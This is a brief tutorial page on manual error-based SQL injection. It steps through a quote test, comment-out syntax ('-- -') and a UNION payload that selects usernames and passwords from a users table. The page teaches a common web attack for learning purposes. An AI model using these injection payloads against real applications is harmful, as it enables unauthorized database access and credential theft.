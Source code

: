 # Error-based SQLi

[Go back](../sql.md)

<div class="row row-cols-md-2"><div>

Error-based is the simplest SQL injection. SQL errors are displayed to the user. The hacker can easily use it to adapt the query, and broke into the database.
</div><div>
</div></div>

<hr class="sep-both">

## Manual Error-based SQLi

<div class="row row-cols-md-2"><div>

➡️ In an error-based SQLi, the first thing tested is a quote `'`:

```sql!
Select name,desc from product where name LIKE '%'%'
```

☠️ The query fails because of the syntax is invalid, due to the trailing "`%'`", but we know that an injection is possible.

<br>

➡️ We then comment out the rest of the query using `' --`.

```sql!
Select name,desc from product where name LIKE '%' --%'
```

☠️ The code above may not work in some DBMS, because they want a space between the start of a comment, and the comment itself.
</div><div>

➡️ We add a space then using `'-- -`

```sql!
Select name,desc from product where name LIKE '%' -- -%'
```

✅ Between `'` and `-- -`, we can write SQL code, through the syntax of the final query must be valid ✌️.

For instance, we could use `UNION Select username,password FROM users`. It's a Union-based payload.


```sql!
Select name,desc from product where name LIKE '%' UNION Select username,password FROM users -- -%'
```
</div></div>